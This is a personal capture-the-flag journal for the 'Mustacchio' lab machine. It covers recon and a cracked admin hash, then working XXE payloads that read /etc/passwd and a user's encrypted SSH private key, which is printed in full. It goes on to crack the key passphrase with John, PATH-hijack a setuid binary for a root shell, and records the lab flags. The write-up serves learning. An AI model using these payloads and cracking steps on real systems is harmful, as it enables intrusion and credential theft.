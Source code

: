 # CTF Journal Entry: Mustacchio (IP: 10.201.90.250)

**Challenge Rating:** Medium  

**Challenge:**  
This machine revolves around reconnaissance, file discovery, web application analysis, cracking hashes, and exploiting XML External Entity (XXE) vulnerabilities to extract sensitive data. It highlights common misconfigurations like accessible backup files, improperly secured SSH keys, and vulnerable XML parsers.

---

## Skills Demonstrated:
- VPN setup for lab access  
- Reconnaissance with Nmap, Zenmap, Rustscan  
- Directory brute-forcing with Gobuster, Feroxbuster, FFUF  
- File analysis (`.bak` → SQLite DB, `strings`, `sqlite3`)  
- Credential extraction & hash cracking with **John the Ripper** and **Hashcat**  
- Login testing with **SSH**, `sshpass`, and `curl`  
- Web enumeration on custom ports (80, 8765)  
- Vulnerability exploitation using **XXE (XML External Entity)**  
- Extracting SSH private keys via XXE payloads  
- Cracking SSH private key passphrase with `ssh2john` + John  
- Privilege escalation enumeration (`strings`, setuid binary analysis)  

---

## Notes

### Initial Recon
- Target: `10.201.90.250`  
- Scanned with Zenmap and Rustscan → Open ports:  
  - **22/tcp SSH**  
  - **80/tcp HTTP**  
  - **8765/tcp HTTP**  

- Website showed filler text, robots.txt blocked (`Disallow: /`).  

### Enumeration
- Ran Gobuster & Feroxbuster → discovered `user.bak`.  
- File was SQLite DB with table `users (username, password)`.  
- Extracted admin hash:  
  ```
  admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
  ```  

- Cracked with John (rockyou.txt):  
  ```
  admin : bulldog19
  ```  

### SSH Attempts
- Tried SSH login with credentials → failed (publickey required).  
- Discovered web login on `http://10.201.90.250:8765`.  
- Logged in using `admin : bulldog19`.  

### Discovery & XXE Exploitation
- Source code hints:  
  ```html
  <!-- Barry, you can now SSH in using your key!-->
  ```  

- Discovered `/auth/dontforget.bak` (XML file).  
- Hints toward XML parsing.  

- Confirmed XXE vulnerability with payloads:  
  ```xml
  <?xml version="1.0"?>
  <!DOCTYPE r [
    <!ELEMENT r ANY >
    <!ENTITY example SYSTEM "file:///home/barry/.ssh/id_rsa">
  ]>
  <r>
    <name>&example;</name>
  </r>
  ```  

- Successfully extracted **Barry’s SSH private key** (encrypted).  

### Cracking SSH Private Key
- Converted key for John:  
  ```bash
  python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```  

- Cracked passphrase: **urieljames**  

- SSH access gained:  
  ```bash
  ssh barry@10.201.90.250 -i id_rsa
  ```  

### User Flag
- Retrieved `user.txt`:  
  ```
  62d77a4d5f97d47c5aa38b3b2651b831
  ```  

### Privilege Escalation Enumeration
- Found `live_log` setuid binary in `/home/joe/`:  
  ```
  Live Nginx Log Reader → calls tail -f /var/log/nginx/access.log
  ```  
- Possible vector for privesc (further analysis needed).  

---

## Takeaways
- Always check for `.bak` and `.db` files → often contain credentials.  
- Don’t overlook custom ports like 8765 → admin panels may hide there.  
- XXE is powerful for **local file disclosure**.  
- SSH private keys may require **passphrase cracking**.  
- Privilege escalation often lies in **setuid binaries**.  

---
orginial notes:
<details>
IP: “10.201.90.250”

set up vpn

ran an zenmap and rustscan

looked at website - goes to a muscathio site

robots.txt =

User-agent: *

Disallow: /

the rest of the site has latin junk writting as filler

ports open:

22 tcp ssh

80 tcp http

8765 tcp http

ran my custom scans with my python code

says port 22 ssh is open, check banners nad maybe brute force it

80 run gobuster/feroxbuster and check header with curl and nikto

NOTE: What is nikto? look this up

ran feroxbuster and ffuf

ssh timed out, don't know the info to login yet

found a user.bak file in http://10.201.63.19/custom/js/

thanks gobuster

looking at thefile we see it's a sqlite format 3

using the strings command we see:

SQLite format 3

tableusersusers

CREATE TABLE users(username text NOT NULL, password text NOT NULL)

]admin1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

tried the data after admin on cyberchef but nothing

when we ssh into the sitre with admin we get permission denied to to publickey

ok, so let's look at users.bak with sqlite3

google says to make the users.bak into a database by typing:

cp users.bak users.db

these are the recommend commands from chatgpt

# copy to a .db filename (optional)

cp users.bak users.db

# list tables

sqlite3 users.db ".tables"

(shows users as a table)

# show schema

sqlite3 users.db ".schema users"

(shows CREATE TABLE users(username text NOT NULL, password text NOT NULL);)

# dump rows

sqlite3 users.db "SELECT * FROM users;"

# or pretty

sqlite3 -header -column users.db "SELECT * FROM users;"

shows:

username password

-------- ----------------------------------------

admin 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

lets try them

i believe we're doing this to make ti a database, since this is a copy of one, then we can use it to view the data inside and get user names and passwords---hopefully

so we have a username and pass, let's try this on ssh

some notes on ssh with pasword:

sshpass -ffilename ssh user@ip # prefer this

sshpass -pPa5sw0rd ssh user@ip # avoid this

where your password is in the first line of the file filename or it is literally Pa5sw0rd. Notes:

In the manual there is no space after -p or -f, but at least sshpass 1.06 in my Debian 10 allows it; your sshpass may or may not.

If your password contains characters your shell will interpret (like $, ' or ;) then you should quote it properly in the command line (but not in the file).

Avoid -p, prefer -f. Use chmod 600 filename to make the file private (root will still be able to access it though). Read about security considerations in the manual.

had to install sshpass - didn';t work

notes from chatgpt pervious say to use:

sqlite3 users.db "SELECT username || ':' || password FROM users;" > hashes.txt

sqlite3 users.db "SELECT username, password FROM users;" > userlist.txt

do this to create a file for cracking. ok then, done

NOTE TO SELF: Make a folder for room downlaods and cracks, making my downloads folder crowded for no reason

so we have these now, now what

since we have a hash for hte passowrd,we need to crack it.

we can use either john the ripper or hashcast

John the ripper code:

# make a file with just the hash (or user:hash). If user:hash use --format=raw-sha1

echo 'admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' > john_hashes.txt

john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-sha1 john_hashes.txt

(easy peasy, for the password of “bulldog19” for admin)

john --show john_hashes.txt # after it runs, shows cracked passwords

I did the hashcast stuff just to try it.

# put the raw hash in a file (one per line)

echo '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' > hashcat.txt

# mode 100 = SHA1

hashcat -m 100 -a 0 hashcat.txt /usr/share/wordlists/rockyou.txt

# show cracked

hashcat -m 100 --show hashcat.txt

i perfer john the ripper

dang, forgot to renew the timer and my machine expired

ssh seems to fail

does the website have a login? that wird 8765 port. try curl? curl transfer data via http, https, ftp and others so maybe

google says try this for login for curl

curl -u username:password https://www.example.com/protected-resource

curl -u admin:bulldog19 https://10.201.21.183

curl failedf or me but snap! http://10.201.21.183:8765/ worked and took me to a page to login!

so we're in the admin panel wit ha commenton teh website button

in the page source we see

<!-- Barry, you can now SSH in using your key!-->

curl -i -X POST -d "username=admin&password=bulldog19" http://10.201.21.183:8765/login

gobuster dir -u http://10.201.21.183:8765 -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,txt,sql,bak,zip

sitemap.xml and robots.txt don't work

umm where to go from here

sqlmap -u "http://10.201.21.183:8765 " --data="username=admin&password=bulldog19" --batch --level=3 --risk=2

saw a recommendation for sqlmap, giving it a try and seeing

hint that an SSH key exists somewhere on the serve</body></html>

//document.cookie = "Example=/auth/dontforget.bak";</span></pre></body></html>

what does that mean, gotta be useful

put it at the end of the ip and got

http://10.201.1.119:8765/auth/dontforget.bak

got another file!

ok so we xxd, cat, file, and look at it

comment>

<name>Joe Hamd</name>

<author>Barry Clad</author>

<com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>

</comment>

it's a null paragraph

it's a xml file

we seen the name barry before

the author is joe hamd

a recommendation I found is to make a Automated cookie-file-disclosure check

It tries several likely paths across common ports (8765, 8764, 80) and saves any responses that look like private keys or interesting text.

Automated cookie-file-disclosure checks

Run this script (save as check_files.sh, chmod +x check_files.sh, then ./check_files.sh). It tries several likely paths across common ports (8765, 8764, 80) and saves any responses that look like private keys or interesting text.

still haven't found anything

we know barry, let's try using barry as a user and ffuf the password

try using for passwords:

ffuf -w /usr/share/seclists/Passwords/bt4-password.txt \

-u "http://10.201.1.119:8765" \

-X POST \

-H "Content-Type: application/x-www-form-urlencoded" \

-d "username=barry&password=FUZZ" \

-mc 302

made a curl script for finding out info, didn't find much

that said, on teh login page there was a note that said:

sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf

so, i did some digging, we looked into the code and there ias a github with all things payload

we noticed that a hint earlier was xml and xxe/xee stuff, new to me but let's learn mofo!

so i did noticed that when on the admin site earlier that when you enter a comment it says “insert xml code!”

so, we have an area to insert xml data, and we noticed that the letter is a certain format. it looks similar to the

so the payload site says how to detect the vulnetability

someone online stated that the ssh key would be user .ssh/id_rsa, which i noteid before, as it that is where key ids were stored and i've seen that before. the address recommend to look at on teh site was /home/user/ .shh/id_rsa, the code used was:

<?xml version="1.0"?>

<!DOCTYPE foo [

<!ELEMENT foo ANY >

<!ENTITY nop SYSTEM "file:///home/barry/.ssh/id_rsa" >

]>

<feed>

<name>&nop;</name>

<Subject>nop</Subject>

<Content>nop</Content>

</feed>

the response was:

Name: -----BEGIN RSA PRIVATE KEY----- Proc-Type: 4,ENCRYPTED DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65 l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk 4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8 7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+ T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7 LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF 6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs 7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of 1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ +Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn 7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD -----END RSA PRIVATE KEY-----

this gues is the ssh key we needed, but why.

looking into ti we do have the ssh key, but it is encrypted

Users commonly protect private keys with a passphrase so if someone steals the key file they still need the passphrase to use it. HTB/CTF boxes often put an encrypted key on disk and you must find the passphrase somewhere (web app, files, credentials) or crack it.

Key points:

<!DOCTYPE foo [ ... ]> defines an inline DTD (Document Type Definition) inside the XML you sent.

<!ENTITY nop SYSTEM "file:///home/barry/.ssh/id_rsa"> declares an external entity named nop whose contents come from the local file at file:///home/barry/.ssh/id_rsa.

Inside the <name> element you reference &nop; — that tells the XML parser: “replace this token with the contents of the nop entity.”

If the server uses an XML parser that allows external entities (and is running with permission to read local files), it will fetch and expand &nop; by reading /home/barry/.ssh/id_rsa and insert the file content into the parsed document or the output the app returns.

This technique is called XXE (XML External Entity) — local file disclosure. It leverages the XML parser’s feature to load external entities and forces it to read local files.

Why the server returned the private key

The web app accepted whatever XML you submitted and apparently parsed/echoed parts of it back to the HTTP response (or logged it and showed it).

Because your payload caused the parser to expand the entity to the contents of the key file, the private key text became part of the server-generated output and was sent back to your browser or curl response.

The private key header shows Proc-Type: 4,ENCRYPTED because the key file itself was passphrase-encrypted on disk. XXE returned the raw file contents — which is why you saw the encrypted PEM text but couldn’t immediately use it.

The admin page comment

The HTML comment <!-- Barry, you can now SSH in using your key!--> is a direct hint that a user named Barry has an SSH key on the machine. CTF authors commonly leave such breadcrumbs.

dontforget.bak contents

The dontforget.bak XML you found included <author>Barry Clad</author>. That reinforces the existence of a barry user or account.

From those hints it’s common sense to try ~barry/.ssh/id_rsa (the standard private key filename).

Why the server was vulnerable (what misconfiguration exists)

The app accepts user-supplied XML and passes it to an XML parser that resolves external entities (this is the classic vulnerability).

Modern secure configurations disable external entity resolution or use parsers configured to forbid file: or http: SYSTEM entities.

The server also (implicitly) returned or reflected parsed XML content to you, rather than sanitizing it — allowing exfiltration.

You already saw a form named xml and a textarea that asks for XML — that strongly suggests the server parses XML input.

Combined with the JS comment about document.cookie = "Example=/auth/dontforget.bak"; and the dontforget.bak XML itself, the app hinted at reading local .bak files. When an app takes XML input and you can control the DTD, XXE is a natural technique to try.

So: visible interface (xml field) + breadcrumb hints (Barry, dontforget.bak, cookie) => try external-entity payloads.

so, I wanted to figure this shit out and was confused, then I realized that it's looking for a vulnerability to tells the xml to return info fomr a certain area, such as teh ssh key

the vulnerability example we got of

<!--?xml version="1.0" ?-->

<!DOCTYPE replace [<!ENTITY example "Doe"> ]>

<userInfo>

<firstName>John</firstName>

<lastName>&example;</lastName>

</userInfo>

needs to be edited

since we know from the payload notes that the info is declared outside the entity its an external entity and we need to use !entity = system.

we know that barry exists and the he used an ssh key to log in, and we know this from the previous notes, therefore, we know to look in the site there, looking at "file:///home/barry/.ssh/id_rsa">

i was confused on if the xxe would work at all, as the first edit i used didn't work, but when we try this:

<?xml version="1.0"?>

<!DOCTYPE test [

<!ELEMENT test ANY >

<!ENTITY safe SYSTEM "file:///etc/hostname">

]>

<test>

<name>&safe;</name>

</test>

we see it returned the hostname under the under name and references &safe

adn we see it works.

to make this work:

<?xml version="1.0"?>

<!DOCTYPE replace [

<!ELEMENT replace ANY >

<!ENTITY example SYSTEM "file:///home/barry/.ssh/id_rsa">

]>

<userInfo>

<firstName>John</firstName>

<lastName>&example;</lastName>

</userInfo>

we see that it's calling to areas that doen'st exist like last name and such, but if we change it to match what we see with name, author, and just use name instead, we should get an answer

<?xml version="1.0"?>

<!DOCTYPE replace [

<!ELEMENT replace ANY >

<!ENTITY example SYSTEM "file:///home/barry/.ssh/id_rsa">

]>

<userInfo>

<name>&example</name>

</userInfo>

I was messing up because I need the root element for doc type, it evne says replaced...idiot.

so replace with r for root

<?xml version="1.0"?>

<!DOCTYPE r [

<!ELEMENT r ANY >

<!ENTITY example SYSTEM "file:///home/barry/.ssh/id_rsa">

]>

<r>

<name>&example;</name>

</r>

and it works!

so, now that we have the key, let's save it and use it to login and then decypher it to use it

ssh barry@10.201.90.250 -i id_rsa

we try that and it has bad permssions

says our private key can NOT be accessible by others

lets change permissions

kinda stuck here

this code lets me know I can see values on the server, but I'm head of this but would have been nice to know

<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE replace [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>

<comment>

<name>Joe Hamd</name>

<author>Joe</author>

<com>&xxe;</com>

</comment>

found users joe and barry 1002 and 1003 respectively

GOT IT FUCK YEA - I'M AN IDIOT

I had to create a id_rsa file and make sure to copy it EXACTLY. Copying ffom the site didn't work

I ahd to highlight and open the source for it

then I copied it and typed it EXACTLY and nano saved 30 lines instead of 60. Now i'ts asking for a passcode! YES AS SHELDON WOULD SAY, MY BRAIN IS BETTER THA NEVERYONES!

ok, so not it's asking for the passphrase, lets get that

#Create a hash for John to crack

python /usr/share/john/ssh2john.py id_rsa > id_rsa.hash

# Crack the Hash

sudo john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt

to crack it, we get:

Using default input encoding: UTF-8

Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])

Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes

Cost 2 (iteration count) is 1 for all loaded hashes

Will run 10 OpenMP threads

Press 'q' or Ctrl-C to abort, almost any other key for status

urieljames (id_rsa)

1g 0:00:00:00 DONE (2025-09-17 10:39) 2.083g/s 6188Kp/s 6188Kc/s 6188KC/s urieljr.k..uriel97

Use the "--show" option to display all of the cracked passwords reliably

Session completed.

urieljames is the passcode!

BOOM WE'RE IN

user.txt file = 62d77a4d5f97d47c5aa38b3b2651b831

first key

i don't think LinPEAS will work here, dang

so we changed users dir to joe and we see a live_log file

live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped

used the strings cmd

barry@mustacchio:/home/joe$ strings live_log

/lib64/ld-linux-x86-64.so.2

libc.so.6

setuid

printf

system

__cxa_finalize

setgid

__libc_start_main

GLIBC_2.2.5

_ITM_deregisterTMCloneTable

__gmon_start__

_ITM_registerTMCloneTable

u+UH

[]A\A]A^A_

Live Nginx Log Reader

tail -f /var/log/nginx/access.log

:*3$"

GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0

crtstuff.c

deregister_tm_clones

__do_global_dtors_aux

completed.8060

__do_global_dtors_aux_fini_array_entry

frame_dummy

__frame_dummy_init_array_entry

demo.c

__FRAME_END__

__init_array_end

_DYNAMIC

__init_array_start

__GNU_EH_FRAME_HDR

_GLOBAL_OFFSET_TABLE_

__libc_csu_fini

_ITM_deregisterTMCloneTable

_edata

system@@GLIBC_2.2.5

printf@@GLIBC_2.2.5

__libc_start_main@@GLIBC_2.2.5

__data_start

__gmon_start__

__dso_handle

_IO_stdin_used

__libc_csu_init

__bss_start

main

setgid@@GLIBC_2.2.5

__TMC_END__

_ITM_registerTMCloneTable

setuid@@GLIBC_2.2.5

__cxa_finalize@@GLIBC_2.2.5

.symtab

.strtab

.shstrtab

.interp

.note.gnu.property

.note.gnu.build-id

.note.ABI-tag

.gnu.hash

.dynsym

.dynstr

.gnu.version

.gnu.version_r

.rela.dyn

.rela.plt

.init

.plt.got

.plt.sec

.text

.fini

.rodata

.eh_frame_hdr

.eh_frame

.init_array

.fini_array

.dynamic

.data

.bss

.comment

we see the setuid which is interesting

then we see the binary is calling /var/log/nginx/access.log

also interesting

so it's using this and not setting a full path, so we can try an PE by using hte path method.

the PATH method seems like it would work due to:

Telltale signs you have a chance:

The binary is setuid / setgid (owner root and -rwsr-xr-x style permission or setgid bit).

The binary uses system() or popen() or exec* functions that search PATH (strings shows system/printf/tail).

The command being run in the binary is referenced as tail (no /usr/bin/tail) — not an absolute path. Your strings shows tail -f /var/log/nginx/access.log (no /usr/bin/tail), which is a huge hint.

The program echoes or otherwise lets you reach functionality that triggers the external program run.

The environment is not fully sanitized (some setuid binaries still honor PATH).

strings found setuid and setgid symbols → likely the binary is installed with elevated privileges.

strings also found system and printf and literal tail -f /var/log/nginx/access.log. A system() call typically runs /bin/sh -c "tail -f ...". /bin/sh will search PATH to find tail if the command is not given as an absolute path. If the binary runs as root and does not sanitize PATH, you can put your own tail earlier in PATH and get it executed as root.

ls -l ./live_log

-rwsr-xr-x 1 root root 16832 Jun 12 2021 ./live_log

root, nice

arry@mustacchio:/home/joe$ stat ./live_log

File: './live_log'

Size: 16832 Blocks: 40 IO Block: 4096 regular file

Device: ca01h/51713d Inode: 257605 Links: 1

Access: (4755/-rwsr-xr-x) Uid: ( 0/ root) Gid: ( 0/ root)

0 = also nice

so we echo PATH$ adn we see

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

so we see the path nad now let's make a temp folder to jump in front

change to the tmp folder

so we go tthere and create a file that echos /bin/bash to give us bin/bash rights and we name ti tail

then we change teh rights for the file

barry@mustacchio:/tmp$ echo "/bin/bash" > tail

barry@mustacchio:/tmp$ chmod 777 tail

now we export it

export PATH=/tmp:$PATH

barry@mustacchio:/tmp$ export PATH=/tmp:$PATH

barry@mustacchio:/tmp$ cd /home/joe/

barry@mustacchio:/home/joe$ ./live_log

root@mustacchio:/home/joe#

and now we see that we have permissions as joe for sudo with sudo -l

we ran the .live_log file and thus we got the /bin/bash permissions and we can execute commands

so i had this a little backwards, we noticed that setuid live_log was ran when this file was used and we want that

we used /bin/bash to get a shell, and when we run the file it normallly doesn't but this time it gave us bash/shell rights

live_log was a privileged binary (setuid/setgid). It called an external program (tail) via a shell/system call without using an absolute path. By putting an executable named tail earlier in PATH (in /tmp or /tmp/exp), when live_log invoked tail the kernel executed your program — but it ran with live_log’s effective privileges (root), so your program ran as root and gave you a root shell.

Clean, correct statement you can save

live_log is a setuid-root binary that calls tail via system() (or similar) without an absolute path. By creating an executable tail and placing it at the front of $PATH, we caused live_log to execute our tail script as root. That script spawned /bin/bash -p, which gave us a root shell.

root@mustacchio:/home/joe# cat /root/root.txt<br>3223581420d9.........</span></pre></body></html>

3223581420d9.........</span></pre></body></html>

got it! room done!
</details>


